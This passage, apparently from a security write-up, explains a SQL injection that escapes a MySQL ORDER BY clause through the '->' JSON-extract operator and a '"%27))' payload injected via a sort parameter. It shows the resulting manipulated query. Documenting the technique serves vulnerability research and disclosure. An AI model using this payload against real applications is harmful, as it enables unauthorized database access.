However, injecting the sort parameter in this context is not straightforward by merely concatenating it with the `SELECT` query and using routine injection methods. The challenge lies in effectively breaking out of the ORDER BY clause to manipulate the query execution. To achieve this, we can utilise a special function: the `->` operator, which serves as an alias for the `json_extract` function in MySQL. This operator allows us to navigate JSON data and extract specific values. By using the -> operator in conjunction with the `"%27))` payload, we can break out of the ORDER BY clause. The `->"%27))` payload effectively terminates the JSON extraction, bypasses the limitations imposed by the initial query and allows us to append additional SQL commands.


```sql
SELECT * FROM `users` ORDER BY json_unquote(json_extract(`name`, '$.""')) LIMIT 10#"')) ASC LIMIT 2
```

